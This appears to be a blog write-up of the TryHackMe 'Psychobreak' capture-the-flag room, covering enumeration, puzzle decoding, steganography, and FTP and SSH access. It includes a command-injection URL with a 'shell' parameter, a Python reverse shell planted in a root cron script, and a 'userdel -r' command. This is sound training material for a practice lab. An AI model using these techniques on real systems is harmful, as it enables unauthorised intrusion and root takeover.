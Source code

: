 ```yaml
---
layout: post
title: psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
image: /assets/img/tryhackme/psychobreak/room_icon.jpeg
---
```


## Psychobreak
---

Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

### Task #1
---

![nmap](/assets/img/tryhackme/psychobreak/3.png)
<br>
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


###Task #2
---

![http_service](/assets/img/tryhackme/psychobreak/4.png)
<br><p> In the source page we can find the room name. Let’s go into the room.</p>

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<br><p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
<br><p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<br><p>At first I thought it was rot13 encoded but I was wrong. Go the link *[vigenere-solver](https://www.guballa.de/vigenere-solver)* and choose the correct variant given in the image to decode the text</p>

![decode](/assets/img/tryhackme/psychobreak/8.png)
<br><p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<br><p>In the source code of the page we can find a hint.<p>

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<br><p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100 </pre>
<br><p>use gobuster with the medium wordlist to find the hidden directory.</p>

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
<br><p>After clicking on the link we are redirected to another page.</p>

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
<br><p>A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.</p>

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
<br><p>After clicking on the link, it redirects to another page.</p>

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
<br><p>After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….</p>

<pre>http://<ip-address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..</pre>

![dir_list](21.png)
<br><p>I downloaded the two files after moving into the other directory that was returned in the response.</p>

###Task #3
---
<br><p>The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.</p>

<pre>binwalk -e image.jpg</pre>
<br><p>After listening to the .wav file I found that it was morse code. So, I decrypted using *[Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html)*.</p>

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
<br><p>Using the message that is decrypted  to extract the contents of the other image file with steghide.</p>

<pre>steghide --extract -sf image_file.jpg</pre>
<br><p>The text file gives the ftp credentials. Let’s login to ftp…</p>

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

###Task #4
---
<br><p>I found two files in the ftp server and I downloaded using the get command.</p>

<pre>get <file-name></pre>
<br> ![program](/assets/img/tryhackme/psychobreak/30.png)

<br><p>After running the program file I found that it takes a word as a argument. So, I ran the bash script.</p>
<br>
```
for i in $(cat list.dic);
do
./program $i;
done
```

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
<br><p>There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().</p>


###Task #5
---
<br><p>The decoded text is the SSH password. Without further wait, let’s login to ssh.</p>

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
<br><p>We found the user.txt in the home directory and some other hidden files</p>

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
<br><p>After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.</p>

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
<br><p>So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.</p>

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
<br><p>We also got the root flag.</p>

###Bonus
---
<br>
![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

<br><p>The bonus task is to delete the user ruvik</p>

<pre>userdel -r ruvik</pre>
<br><p> Run this as root</p>

#### That’s it folks. Happy Hacking!!! :sunglasses:
